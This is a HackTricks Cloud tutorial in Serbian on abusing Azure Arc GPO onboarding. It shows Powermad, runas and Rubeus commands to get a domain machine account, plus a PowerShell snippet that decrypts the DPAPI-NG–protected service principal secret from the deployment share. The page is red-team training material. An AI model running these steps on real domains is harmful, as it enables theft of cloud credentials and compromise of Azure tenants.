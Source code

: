 # Az - Azure Arc Vulnerable GPO Deploy Script

{% hint style="success" %}
Učite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Učite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Identifikacija problema

Azure Arc omogućava integraciju novih internih servera (pridruženih serverskih domena) u Azure Arc korišćenjem metode Group Policy Object (GPO). Da bi olakšao ovaj proces, Microsoft pruža set alata za implementaciju neophodnih za pokretanje postupka učlanjivanja. Unutar ArcEnableServerGroupPolicy.zip datoteke mogu se pronaći sledeći skriptovi: DeployGPO.ps1, EnableAzureArc.ps1 i AzureArcDeployment.psm1.

Prilikom izvršavanja, DeployGPO.ps1 skript vrši sledeće akcije:

1. Kreira Azure Arc Servers Onboarding GPO unutar lokalne domene.
2. Kopira EnableAzureArc.ps1 skript za učlanjivanje na određeni mrežni deljeni resurs kreiran za proces učlanjivanja, koji takođe sadrži Windows instalacioni paket.

Prilikom pokretanja ovog skripta, sistem administratori moraju obezbediti dva glavna parametra: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Dodatno, potrebni su i drugi parametri kao što su domen, FQDN servera koji hostuje deljeni resurs, i naziv deljenog resursa. Dodatni detalji poput ID-a zakupca, grupe resursa i ostalih neophodnih informacija takođe moraju biti obezbeđeni skriptu.

Enkriptovan tajni ključ se generiše u AzureArcDeploy direktorijumu na određenom deljenom resursu korišćenjem DPAPI-NG enkripcije. Enkriptovani tajni ključ se čuva u datoteci nazvanoj encryptedServicePrincipalSecret. Dokazi o tome mogu se pronaći u DeployGPO.ps1 skriptu, gde se enkripcija vrši pozivom ProtectBase64 sa $descriptor i $ServicePrincipalSecret kao ulazima. Deskriptor se sastoji od SID-ova grupa Domain Computer i Domain Controller, obezbeđujući da tajni ključ može biti dekriptovan samo od strane grupa za bezbednost Domain Controllers i Domain Computers, kako je navedeno u komentarima skripta.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Eksploatacija

Imamo sledeće uslove:

1. Uspešno smo prodrli u internu mrežu.
2. Imamo mogućnost da kreiramo ili preuzmemo kontrolu nad korisničkim nalogom na računaru unutar Active Directory-ja.
3. Otkrili smo deljeni mrežni resurs koji sadrži direktorijum AzureArcDeploy.

Postoji nekoliko metoda za dobijanje korisničkog naloga mašine unutar AD okruženja. Jedna od najčešćih je iskorišćavanje kvote korisničkog naloga mašine. Druga metoda uključuje kompromitovanje korisničkog naloga mašine putem ranjivih ACL-ova ili različitih drugih loših konfiguracija.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Kada se dobije nalog mašine, moguće je autentifikovati se koristeći ovaj nalog. Možemo koristiti runas.exe komandu sa netonly zastavicom ili koristiti pass-the-ticket sa Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kada imamo TGT za nalog našeg računara sačuvan u memoriji, možemo koristiti sledeći skript za dešifrovanje tajne servisnog principala.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativno, možemo koristiti [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

U ovom trenutku, možemo prikupiti preostale informacije potrebne za povezivanje sa Azure-om iz ArcInfo.json datoteke, koja je smeštena na istoj mrežnoj deljeni kao i datoteka encryptedServicePrincipalSecret. Ova datoteka sadrži detalje poput: TenantId, servicePrincipalClientId, ResourceGroup, i više. Sa ovim informacijama, možemo koristiti Azure CLI za autentifikaciju kao kompromitovani servisni princip.

## Reference

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
